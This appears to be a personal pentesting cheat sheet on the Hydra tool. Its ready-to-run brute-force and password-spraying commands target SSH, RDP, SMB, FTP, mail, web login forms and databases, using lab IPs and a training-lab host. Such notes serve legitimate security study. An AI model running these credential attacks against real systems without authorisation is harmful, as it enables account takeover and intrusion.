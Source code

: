 ```yaml
---
title: hydra 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - brute forcing
  - windows
  - passwords
---
```

# Hydra

Hydra can attack nearly 50 services including: Cisco auth, FTP, HTTP, IMAP, RDP, SMB, SSH, Telnet... It uses modules for each protocol


## Basic commands

```bash
# Main syntax:
hydra -L users.txt -P pass.txt <service://server> <options>
# Example:
# hydra -L user.list -P password.list ssh://10.129.42.197
# hydra -L user.list -P password.list rdp://10.129.42.197
# hydra -L user.list -P password.list smb://10.129.42.197

# If we use a file with credentials in this format "user:password" we might use the flag -C
hydra -C <user_pass.list> <protocol>://<IP>
# Example: 
# hydra -C user_pass.list ssh://10.129.42.197

# Get information about a module
hydra -U rdp 

# Attack a telnet service
hydra -L users.txt -P pass.txt telnet://target.server  

# Attack a ssh service
hydra -L user.list -P password.list ssh://$ip

# Attack 3389 RDP
hydra -L user.list -P password.list rdp://$ip

# Attack samba
hydra -L user.list -P password.list smb://$ip

# Attack a web resource
hydra -L users-txt -P pass.txt http-get://localhost/   
# -l: specify login name
# -L: specify a list with login names
# -p: specify a single passwords
# -P: specify a file with passwords
# -C: specify a file with user:password
# -t: how many parallel connections to run when cracking
# -V: verbose
# -f: it stops the attack after finding a password
# -M: list of servers to attack, one entry per line, ‘:’ to specify port

# To see sintax of the http-get and http-post-form modules:
hydra -U http-post-form   
# This will return:
# 	 <url>:<form parameters>:<condition string>[:<optional>[:<optional>]
# 	 Example: “/login.php:userin=^USER^&passin=^PASS^:incorrect”
#	 it perform the attack in the login.php page. It uses the input label name userin (or any other, we need to retrieve this from the html code of the form) to insert the dictionary for users. It uses the input label name passin  (or any other, we need to retrieve this from the html code of the form) to insert the dictionary for passwords. It uses the word incorrect to check out the result of the login process (we need to observe the web behaviour to pick a word). For example:
hydra -l pentester -P /usr/share/wordlists/metasploit/password.lst zev0nlxhh78mfshrhzvq9h8vm.eu-central-4.attackdefensecloudlabs.com http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1:S=Success"


# Another example of a login form:
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f 94.237.63.111 -s 47017 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
# username=^USER^&password=^PASS^: The form parameters with placeholders for Hydra.
# F=Invalid credentials: The failure condition – Hydra will consider a login attempt unsuccessful if it sees this string in the response.



# Example for ftp in a non default port
hydra -L users.txt -P pass.txt ftp://$ip:2121

# Port: Specify a non-default port for the target service.
hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp
# Target the FTP service on ftp.example.com via port 2121.
# Use the ftp module and provide verbose output (-V) for detailed monitoring.


# Attacking a pop3 service
hydra -L users.txt -p 'Company01!' -f $ip pop3

# Tasks: Define the number of parallel tasks (threads) to run, potentially speeding up the attack.	
hydra -t 4 ...


# Targeting Multiple SSH Servers
hydra -l $username -p $password -M targets.txt ssh

# Testing a RDP connection with a username Administrator and a password consisting of 6 to 8 characters, including lowercase letters, uppercase letters, and numbers
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp

```


## Real-life examples

```bash
hydra crack.me http-post-form “/login.php:usr=^USER^&pwd=^PASS^:invalid credential” -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/rockyou-15.txt -f

hydra 192.168.1.45 ssh -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/rockyou-10.txt -f -V

hydra -l student -P /usr/share/wordlists/rockyou.txt  ssh://192.153.213.3
```


| Hydra Service | Service/Protocol                 | Description                                                                                             | Example Command                                                                                                |
| ------------- | -------------------------------- | ------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------- |
| ftp           | File Transfer Protocol (FTP)     | Used to brute-force login credentials for FTP services, commonly used to transfer files over a network. | `hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100`                                             |
| ssh           | Secure Shell (SSH)               | Targets SSH services to brute-force credentials, commonly used for secure remote login to systems.      | `hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100`                                              |
| http-get/post | HTTP Web Services                | Used to brute-force login credentials for HTTP web login forms using either GET or POST requests.       | `hydra -l admin -P /path/to/password_list.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"` |
| smtp          | Simple Mail Transfer Protocol    | Attacks email servers by brute-forcing login credentials for SMTP, commonly used to send emails.        | `hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com`                                          |
| pop3          | Post Office Protocol (POP3)      | Targets email retrieval services to brute-force credentials for POP3 login.                             | `hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com`                               |
| imap          | Internet Message Access Protocol | Used to brute-force credentials for IMAP services, which allow users to access their email remotely.    | `hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com`                               |
| mysql         | MySQL Database                   | Attempts to brute-force login credentials for MySQL databases.                                          | `hydra -l root -P /path/to/password_list.txt mysql://192.168.1.100`                                            |
| mssql         | Microsoft SQL Server             | Targets Microsoft SQL servers to brute-force database login credentials.                                | `hydra -l sa -P /path/to/password_list.txt mssql://192.168.1.100`                                              |
| vnc           | Virtual Network Computing (VNC)  | Brute-forces VNC services, used for remote desktop access.                                              | `hydra -P /path/to/password_list.txt vnc://192.168.1.100`                                                      |
| rdp           | Remote Desktop Protocol (RDP)    | Targets Microsoft RDP services for remote login brute-forcing.                                          | `hydra -l admin -P /path/to/password_list.txt rdp://192.168.1.100`                                             |